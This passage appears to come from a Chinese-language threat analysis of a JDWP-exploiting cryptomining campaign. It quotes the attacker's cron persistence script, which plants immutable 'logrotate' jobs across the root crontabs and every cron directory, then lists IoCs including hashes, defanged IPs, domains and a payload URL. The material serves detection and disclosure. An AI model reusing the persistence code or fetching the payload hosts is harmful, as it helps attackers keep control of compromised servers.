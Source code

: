   
  
计划任务  
  
最后，攻击者创建了跨多个位置和时间间隔的 cron 作业。  
  

```
[ -d /var/spool/cron ] && [ -f /var/spool/cron/root ] && echo &#34;@daily $EXEC&#34; >> /var/spool/cron/root 2>/dev/null
[ -d /var/spool/cron/crontabs ] && [ -f /var/spool/cron/crontabs/root ] && echo &#34;@daily $EXEC&#34; >> /var/spool/cron/crontabs/root 2>/dev/null
[ -f /etc/crontab ] && echo &#34;@daily $EXEC&#34; >> /etc/crontab 2>/dev/null && sudo chattr +i /etc/crontab 2>/dev/null
[ -d /etc/cron.hourly ] && echo &#34;$EXEC&#34; >> /etc/cron.hourly/logrotate 2>/dev/null && sudo chmod +x /etc/cron.hourly/logrotate 2>/dev/null && sudo chattr +i /etc/cron.hourly/logrotate 2>/dev/null
[ -d /etc/cron.daily ] && echo &#34;$EXEC&#34; >> /etc/cron.daily/logrotate 2>/dev/null && sudo chmod +x /etc/cron.daily/logrotate 2>/dev/null && sudo chattr +i /etc/cron.daily/logrotate 2>/dev/null
[ -d /etc/cron.weekly ] && echo &#34;$EXEC&#34; >> /etc/cron.weekly/logrotate 2>/dev/null && sudo chmod +x /etc/cron.weekly/logrotate 2>/dev/null && sudo chattr +i /etc/cron.weekly/logrotate 2>/dev/null
[ -d /etc/cron.monthly ] && echo &#34;$EXEC&#34; >> /etc/cron.monthly/logrotate 2>/dev/null && sudo chmod +x /etc/cron.monthly/logrotate 2>/dev/null && sudo chattr +i /etc/cron.monthly/logrotate 2>/dev/null
[ -d /etc/cron.yearly ] && echo &#34;$EXEC&#34; >> /etc/cron.yearly/logrotate 2>/dev/null && sudo chmod +x /etc/cron.yearly/logrotate 2>/dev/null && sudo chattr +i /etc/cron.yearly/logrotate 2>/dev/null
```

  
  
IoC  
  

```
a923de9df0766d6c4be46191117b8cc6486cf19c  SHA-1logservice.sh
1879d5fa0c2ca816fcb261e96338e325e76dca09SHA-1logservice.sh
18d83ba336ca6926ce8b9d68f104cff053f0c2f9SHA-1o.sh-attackscript
815bc1a79440cdc4a7e1d876ff2dc7bc4f53d25eSHA-1logrotate
0851a95d46f035c7759782299422bcfd794e2aecSHA-1logrotate
7074d674d120d19aa7e44e29dd126af152ccdb7cSHA-1logrotate
2d4a23e861ef41df6953195fa4cda115e37a7218SHA-1logrotate
baf0a3b92225f56499c6879b176a3d6163b9d3efSHA-1logrotate
ea7c97294f415dc8713ac8c280b3123da62f6e56SHA-1XMRig6.22
185.196.8[.]123IPFileServer
185.196.8[.]86IPPayloadsFileServer
176.65.148[.]57IPJDWPscanner
176.65.148[.]86IPJDWPscanner
176.65.148[.]239IPJDWPscanner
185.208.156[.]247:3333IPMiningPool
185.196.8[.]41IPMiningPool
https://awarmcorner[.]world Domain Payloads File Server
https://aheatcorner[.]world Domain Previous Payloads File Server
https://canonicalconnect[.]com Domain Payloads File Server
https://cozy[.]yachts Domain Previous Payloads File Server
https://s3.tebi[.]io/dhcpdc/o.sh URL Payload URL
```
